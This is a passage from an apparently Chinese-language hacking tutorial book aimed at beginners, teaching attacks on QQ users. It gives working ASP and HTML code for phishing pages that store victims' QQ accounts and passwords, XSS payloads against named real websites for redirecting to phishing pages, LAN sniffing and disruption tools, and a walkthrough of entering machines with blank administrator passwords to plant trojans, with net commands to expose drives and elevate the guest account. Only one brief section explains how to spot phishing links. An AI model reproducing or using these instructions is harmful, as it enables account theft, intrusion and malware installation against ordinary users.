

图1.31

登录以后是一个繁体中文的页面，幸好不是英文的。终于在“GeoCities 额外功能”下找到了“访客名册”，如图1.32。现在我们终于知道原理了。来进一步研究一下这个访客名册。要想使用访客名册，必须首先开通你的个人网页。简单的注册后就可以进入了，在左边选择“设定访客名册”，进去后，这个留言系统的设置一目了然。我们也来设置一个这样的签名网站。在“名册的名称”和“介绍”处填写一些关于这个“送QQ币”网站的介绍。“背景图像”填写的是网站背景，找一个图片地址填进去。我在原来的那个“送QQ币”的网站源代码中发现了 `http://www.zzdesk.cn/d/2007-3/2007031615304955849.jpg`，这就是对方的图片地址了，是一个QQ的背景，就直接借用这个吧。再往下看，尤其注意第四步的“问题”，登录帐号、密码和意见都是在这里设置的。“留言式样”中的“文字留言”就是一个条状的留言框，“意见框”是一个较大的留言框。第五步是设置用来提交的按钮的文字。“每页显示的留言数目”选择15就可以，这样一页显示的留言会多一些，查看起来也比较方便。“分隔线条”就随自己的喜好选择了。最后一个“私隐权保护选项”是用来设置访问留言的权限，如果公开的话则所有人都能看到留言，选择私人的话则每次自己查看会很麻烦。建议大家还是选择私人比较好，什么时候自己想查看就设置为公开，这样安全。设置好后就可以点击完成了，如图1.33。



图1.32



图1.33

## 第二章 QQ攻防跟我来

在弹出的页面中会提示“访客名册已成功更新”，如图1.34。`http://hk.geocities.yahoo.com/gb/sign?member=***` 是你的“送QQ币”的网址，`http://hk.geocities.yahoo.com/gb/view?member=***` 是访问留言，也就是查看盗号结果的网址。既然有了访问留言的地址，那就让我们访问一下刚才那个盗号的网站吧。还记得刚开始在域名后的“=hbhbhb52”吧，hbhbhb52就是他的用户名。把 *** 换成 hbhbhb52 果然进去了，如图1.35，这说明他的隐私设置为公开。

其实这是最简单的钓鱼网站，不经一点加工，适合于菜鸟朋友，但迷惑性不够强。我们当然还可以稍微加工一下这个页面。在自己做的网页上点击鼠标右键，选择“查看源文件”。把文件保存到本地来修改一下。在源代码中找到表单提交路径，改成完整地址后保存。再更改一下文件的后缀名，把 `sign[2].txt` 改为 `sign[2].html`。然后在本地使用网页编辑程序打开就可以来修改了。不要把输入框和提交框给删了，其它的都可以改动，先把Yahoo的广告条删除，再来装饰一下其它地方，或者直接去QQ官方网站下载它的页面来进行一些改动；效果就更加逼真了。这样一个精致的盗号页面就差不多做好了，比起那个干巴巴的提示输入帐号密码就好多了。随便找一个静态空间上传上去就行了，这比自己辛苦构造ASP的钓鱼页面要简单多了。

```html
<form action="/gb/sign" method="post">
```

将其中的 `/gb/sign` 改为 `http://hk.geocities.yahoo.com/gb/sign`。



图1.34



图1.35

就是登录访客名册的主页，快去动手DIY一个你的留言盗号网站吧！

#### 1.3.2 网络钓鱼，QQ号大丰收

利用留言页面实现QQ钓鱼盗号固然方便，但是对于有编程基础的朋友来说，还是自己动手编辑钓鱼网站更有迷惑性。通过制造假的QQ宠物网站，冒充QQ宠物砸蛋活动，让其他玩家自动输入他们的账号和密码，只要他在这个假网站上登录，他的信息就会保存在数据库里，然后我们下载数据库，那些账号和密码就会全部显示在眼前了。

网上有许多高手制作出了QQ钓鱼网站，我们得到源代码后就可以直接利用。大家来看我下载的钓鱼网站的源代码，由 qqpet.files（储存素材的文件夹）、pet_qq_action.asp（发送账号的ASP程序）、pet_qq_login.html（主页）、qqpass.mdb（储存号码的数据库）等几个文件组成，如图1.36。我们把这些完整的文件上传到空间中就可以使用了。

为了安全起见，不让别人下载到我们的数据库，不让我们辛辛苦苦盗来的QQ号都跑到别人的口袋里去。我们需要更改一下数据库的默认名称，把数据库“qqpass.mdb”改个名字，然后打开“pet_qq_action.asp”，找到里面的“("qqpass.mdb")”，把引号里面的内容改成你刚才改的数据库的名字。比如你把“qqpass.mdb”改为了“123.mdb”，那么打开“pet_qq_action.asp”，把里面的“("qqpass.mdb")”改为“("123.mdb")”就行了。然后编辑“pet_qq_login.html”这个网页文件，把里面的日期改一下，你也可以对活动规则稍作修改。改好后就可以上传到网站空间里了，相信大家都会做网站吧，去申请一个免费的ASP空间存放我们的钓鱼网页。上传成功后，`http://你的域名/pet_qq_login.html` 就是我们做好的假的QQ宠物网站了，如图1.37。



图1.36

把这个网站发给QQ上的好友，告诉他们没有宠物可以在这里砸蛋获得宠物，有宠物的在这里砸蛋可以获得元宝，尽量说得好听点，这就全看自己了。只要他们在这里登录，就会出现“系统忙....请您稍后登陆！”的字样，然后就会跳转到QQ宠物的官方主页 `http://pet.qq.com/index.shtml`。这时候你的数据库已经神不知鬼不觉地把他的账号和密码记录下来了，我们把数据库下载下来，就能看到在这里登录过的QQ账号和密码了，如图1.38。看到了吗，“name”就是账号，“pass”就是密码，简单吧。这比留言钓鱼的中招率要高很多。

如果你感觉只是假冒QQ宠物网站盗QQ号还是很不爽，毕竟现在宠物的诱惑力已经很小了，我们还可以利用这个原理制作其它的钓鱼网站，发挥自己的想象力去盗取其它号码。这个网页只不过是将文本框中用户输入的内容，也就是他的帐号和密码保存在数据库中。这样我们保存其它的网页，只要在上面动动手脚不就OK了嘛！根据这个原理我们可以自己制作钓鱼网站。


图1.37

| id | name     | pass   |
|---:|----------|--------|
| 69 | 12345678 | 888888 |
| 70 | 8866888  | 123456 |

图1.38

新建一个文本文档，写入以下代码，并保存为ASP格式，如图1.39。

```asp
<%
dim db,strcon,qq,pass,rs,strSql
strcon="dbq="& server.mappath("hjx827.mdb") &"; driver= {microsoft access driver (*.mdb)}"
Set db=server.createobject("ADODB.connection")
db.open Strcon
qq=Request("username")
pass=Request("password")
strSql="INSERT INTO pass(name, pass) VALUES('"& qq &"','"& pass &"')"
db.Execute(strSql)
%>
<script language="javascript">
alert("激活成功，请您稍后登陆游戏!")
</script>

<script language="JavaScript">
<!--
window.location="http://sg.qq.com/";
// -->
</script>

<iframe src="" width="0" height="0"></iframe>
```

图1.39

```asp
<%
dim db,strcon,qq,pass,rs,strSql
strcon="dbq=" & server.mappath("qqpass.mdb") & ";driver={microsoft access driver (*.mdb)}"
Set db=Server.CreateObject("ADODB.connection")
db.open strcon
qq=Request("u")
pass=Request("p")
strSql="INSERT INTO pass(name,pass) VALUES('" & qq & "','" & pass & "')"
db.Execute(strSql)
%>
<script language="javascript">
alert("系统忙....请您稍后登陆!")
</script>
<script language="JavaScript">
<!--
window.location="http://你需要跳转的页面地址"
//-->
</script>
```

然后新建一个数据库用来存放我们钓到的“鱼”，数据库的名字要与刚才的ASP页面中的“qqpass.mdb”保持一致。“系统忙....请您稍后登陆！”的提示也可以随便更改为跳转前的其它提示，只要换一下引号内的文字就可以了。还要把“http://你需要跳转的页面地址”引号内的内容换为你需要跳转的网址。



图1.40

在主页中只要添加以下代码即可实现钓鱼的功能，如图1.40。其它的网页制作我就不多说了，在有了基础代码后任意美化吧！

```html
<form action="pet_qq_action.asp" method="post" target="_self">
  <input name="u" type="text" size="20" />
  <input name="p" type="text" size="20" />
  <input name="B1" value="提交" type="submit" />
</form>
```

还要注意修改一下以上代码，把“action=pet_qq_action.asp”中的“pet_qq_action.asp”改成你刚才做的ASP页面的名称，保存后就大功告成了。上传时请大家注意一定要把数据库、ASP页面放在和钓鱼主页的同一目录下，最后连同 qqpet.files 一起上传到你的空间就行了。

大家也完全可以再对网站加以编辑，仿照官网加入原有的图片和文字等，加以美化或者下载官方网站，在其基础上添加代码，调整修改，完全可以做得神出鬼没，和原网站相媲美，关键还是看你的网页编辑技术够不够炉火纯青了！

#### 1.3.3 钓鱼手段大揭秘

钓鱼网站：钓鱼网站通常伪装成银行网站，窃取访问者提交的帐号和密码信息。它一般通过电子邮件传播，此类邮件中有一个经过伪装的链接用于将收件人链接到钓鱼网站。钓鱼网站的页面与真实网站界面完全一致，要求访问者提交帐号和密码。一般来说钓鱼网站结构很简单，只有一个或几个页面，URL和真实网站有细微差别，如真实的工行网站为 www.icbc.com.cn，针对工行的钓鱼网站则有可能为 www.1cbc.com.cn。

QQ钓鱼网站地址多为带有qq字样，点击进入页面有仿制QQ公仔形象，页面正中有明显要求输入QQ号、密码、验证码的对话框。目前这类网站多为骗取用户点击率；还有许多为骗取用户密码。欺骗的实现形式有许多种，其传播也是最泛滥的，而且危害极大。

- 1. **形似法**  
  我们在聊天的过程中经常会收到或者在群里看到类似 www.qo.com、www.1633.com、www.sinq.com 这样的“官方网址”，我们不难发现这些地址都是跟知名网站的网址十分相似。如果不仔细看，很容易中招。不过这只是雕虫小技，还是很容易识别的。

- 2. **添加后缀法**  
  网络中还有更厉害的地址欺骗，例如 www.qq.digua.net、www.ccb.xxx.cn 之类的网址就可以以假乱真。网址前缀和官方网址一模一样，不一样的就是后面多了一个后缀，让我们防不胜防。其实这样的地址就是利用了网络中的免费二级域名资源，“qq”就是骗子所注册的二级域名前缀，后缀就是免费二级域名服务商的顶级域名。  
  如此一来，网站地址就变成了 www.qq.xxx.com，由于我们的阅读习惯，所以一不小心就中招了。对于此类网址，我们要谨记不要浏览带有后缀的网址，并且要知道所有的正规网站都有自己的顶级域名，不会采用这类网址。

- 3. **乱码法**  
  此外，类似 http://%77%77%77%2E%63%70%63%77%2E%63%6F%6D 也是我们在网络中经常遇到的一种网址，这种网址看似是乱码，但“背后”却是骗子的骗人网站。只要利用一款名为“网址编码解码器”的软件，就能将任意网址编码成这种“乱码”网址。  
  对于这种网址，不要访问即可。如果一定要访问，可以事先使用“网址编码解码器”进行解码，来查看背后的真实网址。

- 4. **跨站法**  
  这是一种比较先进的欺骗手段，欺骗者利用一些程序员在编写程序时对一些变量没有做充分的过滤所产生的跨站漏洞实现欺骗，这种跨站漏洞甚至在许多大规模的网站上也普遍存在，域名更是令人难以辨别。

```
搜狐跨站：http://learning.sohu.com/s2007/07tzs/?stra=<script>alert("test")</script>
网易跨站：https://reg.163.com/logins.jsp?username="><script>alert(/qqq/)</script>
跨站配合乱码法：http://search.blog.sohu.com/search?type=search&q=%22%3E%3Cscript%3Ealert%28%22test%22%29%3C%2Fscript%3E&searchSubmit=%CB%D1%CB%F7
```

```html
<script>alert(/qqq/)</script>
<meta http-equiv="refresh" content="1;url=http://www.baidu.com">
```

如果把 `<script>alert(/qqq/)</script>` 改为 `<meta http-equiv="refresh" content="1;url=http://www.baidu.com">`，就可以实现网站的转向，如果url中为挂马页面或者钓鱼页面，那可就得小心了。腾讯也多次出现了类似的跨站漏洞，如果被恶意用户用来钓鱼的话，那后果可是不堪设想呀。

如果在QQ中碰到了恶意网址，我们还可以举报给腾讯公司，这样腾讯公司就会进行处理，以后就不会再危害他人了。另外，不要相信任何天上掉馅饼的事，尽量不要打开任何陌生人发来的信息！

## 1.4 局域网来玩转QQ

#### 1.4.1 菜鸟的好帮手——QQ第六感

最简单有效的局域网QQ攻击工具莫过于QQ第六感了，它可是菜鸟们不可多得的一款工具，下面我就为大家介绍这款QQ第六感 V2.0。如果你也是在局域网中上网的话，那么就赶快来体验一下这个可以随意监听网络中任意QQ号码的程序吧！

先来安装软件，我使用的为注册版，安装完成后即可直接使用。打开图 1.41

图 1.42

软件后的界面如图 1.41 所示。首先进行“初始化适配器列表”，此功能用于获取本机上所有活动的网络适配器，程序在开始的时候会自动调用此命令，需要刷新适配器列表时重新调用。下面的“自定义”用于自定义网络适配器的各个地址，这个功能一般不需要使用。直接进入下一步，点击“在线主机”，即可获取网络中的所有在线主机，对应的 IP 地址显示在左侧“在线主机 IP 地址”中（在此之前，请先在适配器列表中选择好网络适配器，程序默认选择到的第一个网络适配器）。选中需要监听主机的 IP 地址（按 CTRL 键可多选），然后选择“监听QQ号”。现在就可以监听所选主机上的在线 QQ 了，如图 1.42，在左框中可查看 IP 对应的在线 QQ 号码。这样局域网内的在线 QQ 就可以一览无遗了，想加谁就加谁，说不定正巧加到邻家的漂亮 MM 呢！

当然，除了监听 QQ 号码外，这个工具还具有强大的攻击功能。

- **冲突测试**：此命令可使所选主机上弹出一个“IP 地址与网络上的其他系统有冲突”的警告窗口，如图 1.43，IP 冲突错误提示在 Windows 中有较高的优先级，可能影响目的主机用户正在进行的工作。
- **冲突攻击**：此功能可使所选主机无休止地重复“冲突测试”，不断地产生 IP 冲突，此命令对目的主机有一定的危害性。
- **踢出网络**：此命令可以把所选目的主机踢下线；此命令对目的主机有一定的危害性，请勿滥用！
- **清空列表**：调用此命令是唯一清空 QQ 号码列表的方法。

因为 QQ 软件代码具有一定的特征，所以才会被 QQ 第六感捕捉到，只要有人在使用 QQ，都会不可避免地被探测到，这可是局域网中玩转 QQ 最有效的软件之一哟！

#### 1.4.2 QQ木马种植随我来

局域网内部可是最好的“跑马场”了，很多局域网用户的安全意识都非常低，这使得我们有机可乘，可以大肆种植配置好的 QQ 木马。如果你也想在局域网内大赚一把，就跟我来吧！我们需要用到的工具有局域网查看工具以及一款 QQ 木马。

首先打开局域网查看器，点击“搜索计算机”，程序将会自动搜索出上线的局域网主机，如图 1.44。大家可以看到对应的内网 IP 地址、计算机名、工作组等信息。搜索完毕后，我们在工具栏中找到“远程管理”，如图 1.45，然后添加刚才搜索到的所有计算机，如图 1.46。

对于用户名，我们可以尝试使用 administrator，密码尝试使用空口令，然后搜索可控制的计算机，当然还可以使用 new 等其它的默认用户名进行尝试。因为我是利用那些空口令的计算机来入侵的，所以运气也是必不可少的。搜索完毕后，可以被控制的计算机的“能否控制”列则会显示“能”，如图 1.47。

记录下这些可以被控制的计算机 IP 地址，打开啊D网络工具包，切换到“肉鸡查找”项，如图 1.48，打开“远程启动 Telnet”，输入刚才搜索到的 IP 地址以及对应的用户名和密码，然后点击“启动”，如图 1.49。Telnet 远程连接后，输入“y”，如图 1.50，然后就会出现登录界面，输入用户名，即 administrator，密码为空，回车后就可成功进入对方的电脑了，如图 1.51。

接下来就可以通过一些常用的系统命令来实现木马的种植。除了使用 net 命令外，我们还可以使用 tftp 的方式来将我们的木马上传到对方的电脑中。

```bash
net share abc$=c:\共享对方硬盘
cd \\10.10.35.22\abc
```

图 1.44

图 1.45

图 1.46

图 1.47

图 1.48

图 1.49

图 1.50

图 1.51

## 一些常用的系统命令：

| 命令 | 说明 |
|---|---|
| `net share abc$=c:\` | 将 `c:` 盘映射为 `abc$`（隐藏共享） |
| `net share c$ /del` | 禁止 `C$` 共享 |
| `net use z: \\*.*.*.*\C$` | 把远程主机（IP 地址）的共享 `C$` 映射为本地 `Z:` 盘 |
| `net use c: /del` | 删除映射的 `C` 盘 |
| `net use * /del /y` | 删除全部映射 |
| `net start` | 显示本地主机当前服务 |
| `net start telnet` | 启动 Telnet 服务 |
| `net start Server` | 启动 Server 服务（IPC$ 和共享依赖该服务） |
| `net stop server` | 停止 Server 服务（关闭该服务后远程连接受影响） |
| `net user` | 得到本地主机的用户列表 |
| `net user guest /active:yes` | 将停用的 Guest 账号激活（变为可用） |
| `net user guest 888888` | 把 Guest 账号的密码改为 888888 |
| `net localgroup Administrators guest /add` | 把 Guest 用户添加到 Administrators 组中（这样你就有了超级权限） |
| `net view \\*.*.*.*` | 查看指定 IP 主机上的共享 |
| `nbtstat -A *.*.*.*` | 得到远程主机的 NetBIOS 用户名列表 |
| `net share` | 查看本地主机的共享资源（本地的默认共享也可以看到） |
